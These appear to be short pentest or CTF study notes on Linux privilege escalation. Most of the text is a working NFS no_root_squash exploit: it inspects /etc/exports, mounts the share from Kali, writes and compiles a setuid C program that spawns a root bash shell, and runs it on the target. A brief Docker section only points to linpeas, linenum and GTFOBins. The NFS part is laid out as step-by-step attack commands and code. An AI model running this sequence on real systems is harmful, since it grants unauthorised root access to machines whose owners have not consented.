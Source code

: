 
# Escalation Path: NFS Root Squashing



## Identification of the vulnerability
```bash
cat /etc/exports
# output example=/tmp *(rw,sync,insecure,"no_root_squash",no_subtree_check)
```

> It means that the **/tmp** folder is shareable and can be mounted
and everything inside the mount gonna be run by root, so we can take advantage of that.


### Execution

From kali:
```bash
shoumount -e <target ip>

mkdir /tmp/mountme
mount -o rw,vers=2 <target ip>:/tmp /tmp/mountme
```

> Now we put something malicious in the mounted folder

```bash
echo 'int main() {setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/mountme/malicious.c

gcc /tmp/mountme/malicious.c -o /tmp/mountme/shell
chmod +s /tmp/mountme/shell
```

From the target machine:
```bash
cd /tmp
./shell
root
```



# Escalation Path: Docker


## Overview
```bash
run linpeas or linenum 
```

### Execution
gtfobins again: https://gtfobins.github.io/gtfobins/docker/
